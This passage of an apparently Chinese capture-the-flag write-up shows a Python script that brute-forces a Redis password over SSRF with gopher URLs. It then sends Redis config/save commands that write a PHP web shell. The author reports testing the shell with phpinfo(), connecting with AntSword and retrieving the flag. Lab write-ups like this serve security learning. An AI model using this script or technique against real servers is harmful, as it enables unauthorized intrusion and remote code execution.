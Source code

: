 ```python
    # 发起请求
    print(payload)
    request = Request(payload)
    response = urlopen(request).read().decode()
    print("This time password is:" + password)
    print("Get response is:")
    print(response)
    if response.count("+OK") > 1:
        print("find password : " + password)
        #####---------------如无密码，直接从此开始执行---------------#####
        cmd = """
        auth %s
        config set dir %s
        config set dbfilename %s
        set test1 "%s"
        save
        quit
        """ % (password, path, filename, shell)
        # 二次编码
        encoder = encoder_url(encoder_url(cmd))
        # 生成payload
        payload = url + gopher + encoder
        # 发起请求
        request = Request(payload)
        print(payload)
        response = urlopen(request).read().decode()
        print("response is:" + response)
        if response.count("+OK") > 5:
            print("Write success！")
            exit()
        else:
            print("Write failed. Please check and try again")
            exit()
        #####---------------如无密码，到此处结束------------------#####
print("Password not found!")
print("Please change the dictionary,and try again.")
```

跑个脚本，进入shell.php

尝试POST数据`cmd=phpinfo()`

![image-20211020193217426](https://img-blog.csdnimg.cn/img_convert/1db194d724341c8a0ecaac0a07ff010d.png)

有回显，说明写入成功，蚁剑连接，flag在根目录

使用反弹shell的方法不知道为什么没有连接上，之后再看看吧！（似乎只能centos）

参考文章：

https://www.freebuf.com/articles/web/263556.html

https://blog.csdn.net/qq_43665434/article/details/115414738
